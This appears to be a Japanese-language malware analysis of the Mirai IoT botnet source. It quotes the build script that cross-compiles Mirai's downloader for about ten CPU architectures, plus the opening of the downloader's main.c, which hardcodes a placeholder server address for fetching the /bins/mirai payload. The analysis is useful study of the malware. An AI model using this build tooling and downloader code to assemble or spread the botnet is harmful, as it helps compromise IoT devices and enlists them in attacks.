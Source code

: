 MiraiはIoTデバイスをターゲットとしており、IoTデバイスのハードウェアやアーキテクチャは多岐にわたります。
また、Miraiをビルドする際はクロスコンパイラを使用するので、複数の環境で実行できるダウンローダをバイナリとして出力しているものと推測されます。
今回はソースコードがあるので、各バイナリの内部までは解析しません。
### build.sh
ダウンローダーをコンパイルするためのシェルスクリプトです。
前述の./dlr/release配下にあったファイルは、このbuildスクリプトによって生成されたものと考えられます。
```sh
# ./dlr/main.cをコンパイルし、各プラットフォームで動作するバイナリを/release配下に出力している。
-----
armv4l-gcc -Os -D BOT_ARCH=\"arm\" -D ARM -Wl,--gc-sections -fdata-sections -ffunction-sections -e __start -nostartfiles -static main.c -o ./release/dlr.arm
armv6l-gcc -Os -D BOT_ARCH=\"arm7\" -D ARM -Wl,--gc-sections -fdata-sections -ffunction-sections -e __start -nostartfiles -static main.c -o ./release/dlr.arm7
i686-gcc -Os -D BOT_ARCH=\"x86\" -D X32 -Wl,--gc-sections -fdata-sections -ffunction-sections -e __start -nostartfiles -static main.c -o ./release/dlr.x86
m68k-gcc -Os -D BOT_ARCH=\"m68k\" -D M68K -Wl,--gc-sections -fdata-sections -ffunction-sections -e __start -nostartfiles -static main.c -o ./release/dlr.m68k
mips-gcc -Os -D BOT_ARCH=\"mips\" -D MIPS -Wl,--gc-sections -fdata-sections -ffunction-sections -e __start -nostartfiles -static main.c -o ./release/dlr.mips
#mips64-gcc -Os -D BOT_ARCH=\"mps64\" -D MIPS -Wl,--gc-sections -fdata-sections -ffunction-sections -e __start -nostartfiles -static main.c -o ./release/dlr.mps64
mipsel-gcc -Os -D BOT_ARCH=\"mpsl\" -D MIPSEL -Wl,--gc-sections -fdata-sections -ffunction-sections -e __start -nostartfiles -static main.c -o ./release/dlr.mpsl
powerpc-gcc -Os -D BOT_ARCH=\"ppc\" -D PPC -Wl,--gc-sections -fdata-sections -ffunction-sections -e __start -nostartfiles -static main.c -o ./release/dlr.ppc
sh4-gcc -Os -D BOT_ARCH=\"sh4\" -D SH4 -Wl,--gc-sections -fdata-sections -ffunction-sections -e __start -nostartfiles -static main.c -o ./release/dlr.sh4
#sh2elf-gcc -Os -D BOT_ARCH=\"sh2el\" -D SH2EL -Wl,--gc-sections -fdata-sections -ffunction-sections -e __start -nostartfiles -static main.c -o ./release/dlr.sh2el
#sh2eb-gcc -Os -D BOT_ARCH=\"sh2eb\" -D SH2EB -Wl,--gc-sections -fdata-sections -ffunction-sections -e __start -nostartfiles -static main.c -o ./release/dlr.sh2eb
sparc-gcc -Os -D BOT_ARCH=\"spc\" -D SPARC -Wl,--gc-sections -fdata-sections -ffunction-sections -e __start -nostartfiles -static main.c -o ./release/dlr.spc
-----
# <以下省略>
```
### main.c
C言語で書かれています。
コードの概要を説明すると、ダウンロード元のサーバIPをコード内でハードコードしており、サーバIP/bins/miraiに対してGETリクエストを送り、ファイルをカレントディレクトリにダウンロードします。

```c
// 他のファイルからも関数として呼び出すため、定数としてマルウェアをダウンロードする元となるサーバのIPアドレス等を指定します。
#include <sys/types.h>
//#include <bits/syscalls.h>
#include <sys/syscall.h>
#include <fcntl.h>
#include <sys/socket.h>
#include <netinet/in.h>

#define HTTP_SERVER utils_inet_addr(127,0,0,1) // CHANGE TO YOUR HTTP SERVER IP ハードコードしてダウンロード元のIPアドレスを指定
```

